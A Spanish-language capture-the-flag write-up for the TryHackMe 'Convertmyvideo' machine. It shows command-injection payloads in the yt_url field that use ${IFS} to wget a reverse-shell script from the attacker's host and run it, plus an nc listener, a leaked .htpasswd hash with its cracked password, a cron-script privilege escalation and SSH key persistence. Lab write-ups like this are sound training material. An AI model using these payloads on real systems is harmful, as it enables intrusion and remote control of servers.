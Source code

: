 ```yaml
---
layout: post
title:  "Convertmyvideo - [THM]"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```



{: .message}

Es una maquina linux que nos permite explotar una vulnerabilidad que se encuentra en el OWASP Top 10 (2017).

## Enumeración
### Nmap
*Puertos:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*Escaneo mas exhaustivo:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

Luego de fuzzear di con un directorio que es admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)
![Pastedimage20210416201737](https://user-images.githubusercontent.com/76759292/127757710-64e265d5-b99f-4397-9f32-b29238611ffc.png)


## PoC Inyección de comandos

Despues de un rato probando di con una inyección de comando en la parte donde se inserta la url

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)
![Pastedimage20210416210230](https://user-images.githubusercontent.com/76759292/127757723-4dc3ddf8-2de9-4564-bee5-97ab61d011b3.png)


Podemos tambien visualizar la flag desde aqui (Para el espaciado utilizo Input Field Separators que es una variable de separador de campo de entradas):  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)
![Pastedimage20210416211813](https://user-images.githubusercontent.com/76759292/127757727-fc4e3dd1-fd78-45e3-b4d8-106c00b23e09.png)

Podemos visualizar el contenido que tiene admin:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)
![Pastedimage20210416211957](https://user-images.githubusercontent.com/76759292/127757731-3a285cca-4e6f-474d-89e3-6e62d08a27d2.png)

Algo que llama la atencion es el contenido que tiene .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)
![Pastedimage20210416212308](https://user-images.githubusercontent.com/76759292/127757745-e60616cb-5985-48c0-b63c-f9c6d51b228a.png)


```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

Con esto lo podremos crackear ```jesie```  y posteriormente entrar en el panel que nos aparece cuando entramos a /admin. En esta oportunidad iremos por otro vector.

## Shell Inicial

Primero haremos una reverse sencilla con bash y luego nos montamos un servidor con python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Luego ejecutamos la reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)
![Pastedimage20210416213538](https://user-images.githubusercontent.com/76759292/127757751-7f9e8d86-b68b-47a8-8ddd-3a204c9e9554.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

La  primera utilidad a utilizar es ```linpeas```  esta nos muestra lo mismo que sacamos con la inyección de comandos:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


Un script interesante es clean.sh, la idea es basicamente agregar una reverse y esperar que sea ejecutada:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)
![Pastedimage20210521174646](https://user-images.githubusercontent.com/76759292/127757755-383cfbca-aa66-43e0-a23b-57a135cc6f93.png)


En esta imagen se confirma mi teoria que basicamente consiste en que ese script es ejecutado por root mediante una tarea cron:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)
![Pastedimage20210521174719](https://user-images.githubusercontent.com/76759292/127757762-889d4ecd-dce2-4c25-82d0-63334389a4ac.png)


```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

Esto no va con la resolución de la maquina pero me parece interesante el tema del local port forwarding que nos permite a nosotros visualizar servicios que solo puedan verse en la maquina de manera local (Este no es el caso pero suponiendo que nos encontremos mas adelante con esto).

Primero nos generamos un par de llaves con ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)
![Pastedimage20210521180334](https://user-images.githubusercontent.com/76759292/127757767-6490e00f-bc47-4c89-a208-7a4badd90d52.png)


Agregamos nuestra llave al authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)
![Pastedimage20210521180445](https://user-images.githubusercontent.com/76759292/127757768-6ceedccb-bf53-4e71-bcb9-77b6513f795c.png)


Probamos que todo este correcto:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)
![Pastedimage20210521180621](https://user-images.githubusercontent.com/76759292/127757769-49ef382b-cbd0-403f-b77b-e34d1beb161c.png)


Con el siguiente comando le estamos diciendo que queremos que el puerto 80 de la maquina victima sea reflejado en el 8084 de nuestra maquina:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)
![Pastedimage20210521181139](https://user-images.githubusercontent.com/76759292/127757771-a48a1471-51f3-4c4c-88bc-9d0e4e66cfbc.png)


Asi lo podriamos visualizar:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)
![Pastedimage20210521181155](https://user-images.githubusercontent.com/76759292/127757779-2cb3c5c9-5c6f-4230-95ee-3e66f5b4249d.png)


En esta maquina pudimos explotar una inyección de comando y posteriormente abusar de una tarea cron.

